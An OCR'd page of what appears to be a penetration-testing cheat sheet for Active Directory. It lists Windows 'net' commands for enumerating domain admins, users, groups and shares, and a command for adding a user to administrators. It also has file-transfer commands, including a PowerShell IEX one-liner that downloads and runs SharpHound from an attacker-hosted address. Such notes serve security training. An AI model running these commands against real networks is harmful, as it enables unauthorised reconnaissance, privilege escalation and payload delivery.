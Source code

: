 
#### Additional: Table of Useful Net Commands

| **Command** | **Description** |
|---|---|
| `net accounts` | Information about password requirements |
| `net accounts /domain` | Password and lockout policy |
| `net group /domain` | Information about domain groups |
| `net group "Domain Admins" /domain` | List users with domain admin privileges |
| `net group "domain computers" /domain` | List of PCs connected to the domain |
| `net group "Domain Controllers" /domain` | List PC accounts of domains controllers |
| `net group <domain_group_name> /domain` | User that belongs to the group |
| `net groups /domain` | List of domain groups |
| `net localgroup` | All available groups |
| `net localgroup administrators /domain` | List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default) |
| `net localgroup Administrators` | Information about a group (admins) |
| `net localgroup administrators [username] /add` | Add user to administrators |
| `net share` | Check current shares |
| `net user <ACCOUNT_NAME> /domain` | Get information about a user within the domain |
| `net user /domain` | List all users of the domain |
| `net user %username%` | Information about the current user |
| `net use x: \\computer\share` | Mount the share locally |
| `net view` | Get a list of computers |
| `net view /all /domain[:domainname]` | Shares on the domains |
| `net view \\computer /ALL` | List shares of a computer |
| `net view /domain` | List of PCs of the domain |

---

### Transferring Files

| **Command** | **Description** |
|---|---|
| `sudo python3 -m http.server 8001` | Starts a python web server for quick hosting of files. Performed from a Linux-basd host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket SMB server for quick hosting of a file. Performed from a Windows-based host. |

---